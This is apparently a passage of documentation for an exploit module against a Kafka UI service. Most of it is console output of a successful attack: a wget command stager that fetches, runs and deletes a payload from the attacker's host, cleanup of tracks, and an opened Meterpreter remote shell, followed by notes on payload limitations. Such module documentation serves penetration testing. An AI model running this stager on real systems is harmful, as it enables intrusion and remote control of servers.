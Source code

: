 ```shell
[*] Searching for active Kafka cluster...
[+] Active Kafka cluster found: local
[*] Creating a new topic...
[+] New topic created: PlKLxNifRq
[*] Trigger Groovy script payload execution by creating a message...
[*] Using URL: http://192.168.201.8:8080/VW68Ia3eSmCpfT
[*] Generated command stager: ["wget -qO /tmp/kBDcNRoG http://192.168.201.8:8080/VW68Ia3eSmCpfT;chmod +x /tmp/kBDcNRoG;/tmp/kBDcNRoG;rm -f /tmp/kBDcNRoG"]
[*] Client 192.168.201.25 (Wget) requested /VW68Ia3eSmCpfT
[*] Sending payload to 192.168.201.25 (Wget)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.201.25
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Removing tracks...
[+] Successfully deleted topic PlKLxNifRq.
[*] Meterpreter session 30 opened (192.168.201.8:4444 -> 192.168.201.25:50384) at 2024-01-23 08:51:35 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.30.0.4
OS           :  (Linux 6.4.16-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: kafkaui
meterpreter >
```

## Limitations
Stageless  meterpreter payloads using `CMDSTAGER::FLAVOR` `echo`, `printf` and `bourne` does not work.
Use `wget` or switch to  staged meterpreter payloads when using the Linux Dropper target.
